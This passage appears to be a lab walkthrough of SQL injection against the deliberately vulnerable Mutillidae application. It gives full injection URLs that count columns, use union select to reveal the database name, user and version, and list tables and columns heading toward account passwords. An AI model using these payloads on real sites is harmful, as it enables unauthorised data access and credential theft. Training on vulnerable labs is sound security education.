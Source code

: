 The browser url of this info page need to be modified with the url as below:
http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details
![379092640-9652a949-19ac-4cb9-9698-733bbccd3093](https://github.com/user-attachments/assets/a358a26e-5815-4d24-92bb-dc021b6dcc25)
After adding the order by 6 into the existing url , the following error statement will be obtained:
![379092744-ab58f46d-3369-4ccb-a3ac-4d8031dec192](https://github.com/user-attachments/assets/17e7205b-76de-4680-a41a-697e65d3625e)
When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![379092809-05ec7591-ab49-47da-a766-b8eb4c9fc9b5](https://github.com/user-attachments/assets/f74de3ae-d710-4da4-9976-0dc959d199c8)
As it is having 5 columns the query worked fine and it provides the correct result
![379092875-b065cff4-9ca9-4d25-a995-250c2a114333](https://github.com/user-attachments/assets/50afb107-eb25-4b41-9f58-4faae07a1c63)
Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union
![379092960-58b074e6-64cb-49f0-afd0-4403273e742b](https://github.com/user-attachments/assets/d109415e-6522-4ab2-b2a9-63c914d67958)
As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![379093060-3ada5ff8-451a-47d1-918c-3f050412a589](https://github.com/user-attachments/assets/8b7ba127-078c-43ab-9d07-af4c9beaffaf)
Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
![379093295-28bb9041-6729-418f-ae5b-442565461341](https://github.com/user-attachments/assets/12863bd5-b162-48b8-b5e8-ec24d0c087cd)
The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![379093383-a20508d4-9161-4857-afe9-9b91df6c37b1](https://github.com/user-attachments/assets/345c7316-fcea-498a-9c0d-5f152d81a7c4)
The url once executed will retrieve table names from the “owasp 10” database.
# Extracting sensitive data such as passwords
When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).
